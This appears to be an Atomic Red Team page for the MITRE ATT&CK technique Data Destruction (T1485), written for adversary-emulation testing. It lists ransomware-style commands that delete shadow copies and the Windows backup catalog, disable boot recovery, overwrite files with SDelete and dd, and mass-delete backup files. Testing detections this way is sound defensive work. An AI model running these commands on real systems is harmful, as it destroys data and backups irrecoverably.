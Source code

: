 # T1485 - Data Destruction
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1485)
<blockquote>Adversaries may destroy data and files on specific systems or in large numbers on a network to interrupt availability to systems, services, and network resources. Data destruction is likely to render stored data irrecoverable by forensic techniques through overwriting files or data on local and remote drives.(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018)(Citation: Talos Olympic Destroyer 2018) Common operating system file deletion commands such as <code>del</code> and <code>rm</code> often only remove pointers to files without wiping the contents of the files themselves, making the files recoverable by proper forensic methodology. This behavior is distinct from [Disk Content Wipe](https://attack.mitre.org/techniques/T1488) and [Disk Structure Wipe](https://attack.mitre.org/techniques/T1487) because individual files are destroyed rather than sections of a storage disk or the disk's logical structure.

Adversaries may attempt to overwrite files and directories with randomly generated data to make it irrecoverable.(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018) In some cases politically oriented image files have been used to overwrite data.(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)

To maximize impact on the target organization in operations where network-wide availability interruption is the goal, malware designed for destroying data may have worm-like features to propagate across a network by leveraging additional techniques like [Valid Accounts](https://attack.mitre.org/techniques/T1078), [Credential Dumping](https://attack.mitre.org/techniques/T1003), and [Windows Admin Shares](https://attack.mitre.org/techniques/T1077).(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Talos Olympic Destroyer 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Windows Backup Catalog](#atomic-test-2---windows---delete-windows-backup-catalog)

- [Atomic Test #3 - Windows - Disable Windows Recovery Console Repair](#atomic-test-3---windows---disable-windows-recovery-console-repair)

- [Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete](#atomic-test-4---windows---overwrite-file-with-sysinternals-sdelete)

- [Atomic Test #5 - macOS/Linux - Overwrite file with DD](#atomic-test-5---macoslinux---overwrite-file-with-dd)

- [Atomic Test #6 - Windows - Delete Backup Files](#atomic-test-6---windows---delete-backup-files)


<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
vssadmin.exe delete shadows /all /quiet
```






<br/>
<br/>

## Atomic Test #2 - Windows - Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
wbadmin.exe delete catalog -quiet
```






<br/>
<br/>

## Atomic Test #3 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot. 
This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```






<br/>
<br/>

## Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete
Overwrites and deletes a file using Sysinternals SDelete.
Requires the download of either Sysinternals Suite or the individual SDelete utility.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_to_overwrite | Path of file to overwrite and remove | Path | C:\some\file.txt|
| sdelete_exe | Path of sdelete executable | Path | PathToAtomicsFolder\T1485\bin\sdelete.exe|


#### Attack Commands: Run with `command_prompt`! 
```
#{sdelete_exe} #{file_to_overwrite}
```



#### Dependencies:  Run with `powershell`!
##### Description: Secure delete tool from Sysinternals must exist on disk at specified location (#{sdelete_exe})
##### Check Prereq Commands:
```
if (Test-Path #{sdelete_exe}) {0} else {1} 
```
##### Get Prereq Commands:
```
Invoke-WebRequest "https://download.sysinternals.com/files/SDelete.zip" -OutFile "$env:TEMP\SDelete.zip"
Expand-Archive $env:TEMP\SDelete.zip $env:TEMP\Sdelete -Force
New-Item -ItemType Directory (Split-Path "#{sdelete_exe}") -Force | Out-Null
Copy-Item $env:TEMP\Sdelete\sdelete.exe "#{sdelete_exe}" -Force
```




<br/>
<br/>

## Atomic Test #5 - macOS/Linux - Overwrite file with DD
Overwrites and deletes a file using DD.

To stop the test, break the command with CTRL/CMD+C.

**Supported Platforms:** Linux, macOS


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| overwrite_source | Path of data source to overwrite with | Path | /dev/zero|
| file_to_overwrite | Path of file to overwrite and remove | Path | /var/log/syslog|


#### Attack Commands: Run with `bash`! 
```
dd of=#{file_to_overwrite} if=#{overwrite_source}
```






<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files
Deletes backup files in a manner similar to Ryuk ransomware.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`! 
```
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```






<br/>
